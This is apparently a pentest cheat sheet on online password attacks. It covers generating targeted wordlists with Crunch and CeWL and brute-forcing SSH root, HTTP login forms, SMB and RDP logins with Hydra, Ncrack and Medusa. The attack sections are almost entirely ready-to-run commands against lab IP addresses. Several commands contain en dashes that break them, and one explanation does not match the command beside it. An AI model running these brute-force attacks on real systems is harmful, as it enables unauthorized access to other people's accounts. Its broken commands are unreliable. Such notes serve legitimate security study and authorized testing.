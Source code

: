 # Online Attack

## Wordlist

### Crunch

Crunch is a tool that can generate custom wordlist with defined character-sets and password formats.

> `crunch [min] [max] [characterset] -t [pattern] -o [output filename]`

min = minimum password length max = maximum password length characterset = The character set to be used in generating the passwords -t = patten, for example if you knew that your target's birthday was 0728 \(July 28th\) and you suspected they used their birthday in their password, you could generate a password list that ended with 0728 by giving crunch the pattern @@@@@@@0728.

> `./crunch 1 1 -p pen test lab`

The second option is when we will want to create a list based on different words.For example the words blue and red can be bluered or redblue.We can achieve this with the command:

> `./crunch 6 6 0123456789 -b 1mb -o START`

This will generate wordlists which will be 1Mb each and with 6 characters size and it will include the characters 0123456789.

> `./crunch 3 3 -f charset.lst lalpha -o START -c 20`

Crunch allows us to specify the number of words in each wordlist.This will create a wordlists that it will contain 20 words maximum by taken a specific charset of lalpha which is \[abcdefghijklmnopqrstuvwxyz\].

> `./crunch 13 13 -f charset.lst lalpha -t pentestlab@@@`

Create a wordlist that will contains the word pentestlab followed by 3 random characters.

### CeWL

CeWL is a ruby app which spiders a given url to a specified depth, optionally following external links, and returns a wordlist which can then be used for password crackers such as John the Ripper.

> `cewl -d 2 -m 5 -w docswords.txt http://docs.kali.org`

## Bruteforce

### Hydra

> `hydra -l username -p passwordlist.txt [target (ip address and port)]`

#### SSH bruteforce

Brute-force SSH root account using a wordlist/dictionary

> `hydra -l root -P 500-worst-passwords.txt 192.168.1.10 ssh`

-l = the username

-L = list of usernames \(if you don't know the login\)

-p = password \(never used\)

-P - the directory for the wordlists \(file\)

-M FILE list of servers to be attacked in parallel, one entry per line

Less common options: -vV = verbose mode, shows you every login attempt hydra tries

-s = specify the port on which we running our attack

-e ns = checks for blank or no password fields

#### HTTP Form Bruteforce

Brute-force HTTP Form POST using a username list to try different usernames

> `hydra -L \[username list\] -P \[password list\] 192.168.1.10 \[form parameters\]\[failed login message\]`

#### SMB Bruteforce

> `hydra –L /root/Desktop/user.txt -P /root/Desktop/pass.txt 192.168.1.118 smb`

![Single Target , Port and Protocol](../.gitbook/assets/image.png)

![Username List, Password List](../.gitbook/assets/image%20%282%29.png)

### [http://www.hackingarticles.in/5-ways-to-hack-smb-login-password/](http://www.hackingarticles.in/5-ways-to-hack-smb-login-password/)

### Ncrack

#### RDP bruteforce

> `ncrack -vv --user offsec -P passwordfile.txt rdp://192.168.11.35`

#### SMB Bruteforce

> `ncrack –u /root/Desktop/user.txt -P /root/Desktop/pass.txt 192.168.1.118 –p 445`

-U - denotes the path of username list

-P – denotes password file’s path

-p – is the port number

### Medusa

#### SMB Bruteforce

> `medusa -h 192.168.1.118 -U /root/Desktop/user.txt -P /root/Desktop/pass.txt -M smbnt`

